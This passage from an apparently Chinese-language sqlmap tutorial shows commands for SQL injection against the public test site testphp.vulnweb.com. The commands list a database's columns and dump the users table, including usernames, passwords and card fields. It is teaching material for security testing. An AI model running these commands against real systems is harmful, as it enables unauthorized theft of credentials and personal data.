 ## 获取表字段

1、获取某个表的所有字段，`-T` 指定某个表 ，`--columns` 获取字段

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch -D acuart -T users --columns
```

```
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+
```

2、获取某个库的所有表的所有字段

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch -D acuart -tables --columns
```

## 获取表中数据

`--dump` 是导出数据所有内容 ，`--dump -C "uname,pass"` 获取指定字段的内容

1、获取指定库所有表所有字段内容

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch -D acuart  -tables --columns --dump
```

2、获取指定表的所有字段内容

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch -D acuart -T users --columns --dump
```

3、获取指定表指定字段内容

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch -D acuart -T users -C "uname,pass" --dump
```
